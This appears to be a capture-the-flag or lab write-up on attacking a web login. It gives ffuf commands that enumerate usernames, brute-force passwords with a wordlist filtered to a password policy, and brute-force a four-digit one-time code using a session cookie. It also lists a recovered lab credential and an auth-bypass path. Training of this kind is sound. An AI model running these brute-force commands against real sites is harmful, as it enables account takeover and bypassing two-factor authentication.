




___



Register a test account



# Username brute force

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.59.63:32697/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown username or password." -t 200
```

# Password brute force

```bash
ffuf -w wordlist.txt -u http://94.237.59.63:32697/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid" -t 200
```

custom wordlist with password policy

- Contains at least one digit
- Contains at least one lower-case character
- Contains at least one upper-case character
- Contains NO special characters
- Is exactly 12 characters long

```bash
grep -E '^[[:alnum:]]{12}$' /usr/share/seclists/rockyou.txt | grep -E '[0-9]' | grep -E '[a-z]' | grep -E '[A-Z]' > wordlist.txt
```

gladys:dWinaldasD13

# OTP brute force

```bash
seq -w 0 9999 > tokens.txt
```


```bash
ffuf -w tokens.txt -u http://83.136.252.57:36257/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=tvtp9f6sse8bt2tqdrmhh8t366" -d "otp=FUZZ" -fr "Invalid"
```

# Auth bypass
/profile.php




